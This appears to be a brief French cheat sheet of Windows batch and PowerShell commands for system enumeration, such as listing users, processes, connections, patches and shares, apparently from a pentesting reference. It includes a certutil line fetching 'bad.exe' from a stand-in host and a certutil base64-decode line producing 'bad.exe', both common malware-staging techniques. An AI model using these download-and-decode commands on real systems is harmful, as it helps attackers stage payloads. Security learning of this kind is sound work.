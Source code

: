 <h2>Batch</h2>
systeminfo → Obtenir des renseignements sur le système</br>
net users [username] → Obtenir des renseignements sur les utilisateurs</br>
tasklist → Lister les processus</br>
netstat -ano → Liste des connexions tcp</br>
dir sysprep /s /b → Trouver un fichier dans le repertoire courant et ses sous-dossiers</br>
wmic qfe list → Lister les patch installés (KB)</br>
certutil.exe -urlcache -split -f "http://site.com/bad.exe" bad.exe → wget en batch</br>
certutil.exe -decode bad.txt bad.exe → base64 decode en cmd</br>

<h2>Powershell</h2>
get-WmiObject -class Win32_Share
